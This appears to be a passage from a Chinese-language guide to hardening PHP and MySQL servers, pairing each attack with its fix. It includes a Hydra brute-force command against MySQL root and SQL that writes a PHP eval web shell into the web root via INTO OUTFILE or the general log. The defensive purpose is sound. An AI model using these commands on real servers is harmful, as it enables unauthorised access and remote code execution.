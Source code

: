 修复方法：修改`php.ini`中`expose_php`为Off，修改`display_errors`为Off。

## MySQL数据库安全加固

常见攻击手段：Hydra对数据库进行弱口令暴力破解攻击：

```bash
sudo hydra -l root -P password.txt mysql://192.168.5.160 -I
```

设置只允许本地连接，不允许远程主机连接：

```sql
use mysql;
select host,user from user;
update user set host="localhost" where user='root';
select host,user from user;
```

修改`mysql/mysql.conf.d/mysqld.cnf`或`mysql/my.cnf`中`bind-address`字段和`mysqlx-bind-address`的值为“127.0.0.1”，使远程主机探测不到MySQL开放的TCP端口。

修改root登录口令：

```sql
-- MySQL 8
use mysql;
ALTER USER 'root'@'%' IDENTIFIED WITH mysql_native_password BY 'AnyWhereis5@0';

--MySQL 5
use mysql;
update user set authentication_string=password("AnyWhereis5@0") where user='root';
```

常见攻击手段：用以下语句查询：

```sql
show variables like '%secure%';
```

当`secure_file_priv`的值为空时，目标MySQL具备写入文件的功能，写入一句话木马：

```sql
select '<?php @eval($_POST[passwd]);?>' into outfile '/var/www/html/shell.php';
```

即使设置了`secure_file_priv`参数，也可通过日志文件写入。将`generral_log_file`变量的值设为“/var/www/html/shell.php”，然后执行：

```sql
show variables like '%general%';
set global general_log=on;
select '<?php @eval($_POST[passwd]);?>';
set global general_log=off;
```

修复方法：将`secure_file_priv`参数设置为“NULL”，禁用root远程连接，并使用降权后普通用户权限进行连接：

```sql
revoke ALL on *.* from admin@'%';
```
